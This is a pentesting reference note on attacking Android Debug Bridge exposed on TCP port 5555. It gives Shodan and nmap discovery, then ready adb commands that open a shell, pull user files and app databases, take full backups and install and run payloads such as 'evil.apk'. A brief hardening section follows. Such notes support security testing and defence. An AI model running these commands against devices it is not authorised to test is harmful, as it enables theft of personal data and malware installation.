

# 82 - ADB / Android Debug Bridge (Port 5555) Pentesting

## 1. Executive Summary

Android Debug Bridge (adb) is the developer tool for controlling Android devices — install apps, debug, and get an **interactive root-ish shell**. When a device enables network adb (`adb tcpip`), it listens on **TCP 5555 with no authentication** in classic mode. Anyone who reaches that port gets a **full shell on the device** → read all data, install/run apps, exfiltrate files. Exposed 5555 is rampant on Android TV boxes, IoT, emulators, and rooted phones — and has been mass-exploited by cryptomining worms. (Android 11+ "Wireless debugging" adds TLS pairing + mDNS-discovered dynamic ports, harder to abuse.)

## 2. Protocol Overview & Architecture

`adb connect host:5555` speaks the adb protocol to the on-device `adbd`. Classic TCP adb does no auth (the USB RSA-key prompt doesn't gate network mode the same way), so connection = shell. The shell runs as `shell` (or `root` on rooted/eng builds), with broad access to the filesystem, app data, and package management. Modern wireless debugging requires `adb pair host:port` over TLS first — only attackable if you can complete pairing.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 5555 <IP>     # 'Android Debug Bridge device (name: ...; model: ...)'
# shodan: "Android Debug Bridge" port:5555
adb connect <IP>:5555
adb devices               # confirm connected
```

## 4. Exploitation Deep Dive

### 4.1 Connect & Shell
```bash
adb connect <IP>:5555
adb shell                 # interactive shell on the device
adb shell id; getprop ro.build.version.release
```

### 4.2 Data Exfiltration
```bash
adb shell pm list packages
adb pull /sdcard/ loot/                 # user files
adb shell run-as <pkg> cat databases/*  # app data (debuggable apps)
adb backup -all                          # full backup
```

### 4.3 Persistence / Payload
```bash
adb install evil.apk
adb push payload /data/local/tmp/ && adb shell chmod +x /data/local/tmp/payload
adb shell am start ...                    # launch components
```
(The classic adb worm spreads device→device installing miners — illustrates impact.)

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Full device data access (messages, photos, app DBs, tokens).
- Install malware / miner; persistent control.
- Pivot using device's network position / stored creds.

## 7. Defense & Hardening
1. **Disable network adb** (`adb tcpip` / `setprop service.adb.tcp.port -1`); keep USB debugging off in production.
2. Never expose 5555; firewall it; use Android 11+ wireless debugging (TLS pairing) only.
3. Vet IoT/TV devices for default-on adb; patch firmware.

## 8. Chaining Opportunities
- Device shell → pivot into the LAN; harvested creds → cross-service reuse.
- Discovered via **[[81 - mDNS (Port 5353) Pentesting]]** (wireless debugging advertises over mDNS).

## 9. Related Notes
- [[83 - OMI (Port 5985-5986) Pentesting]]

## 10. Tools
`adb`, `nmap`, Shodan.
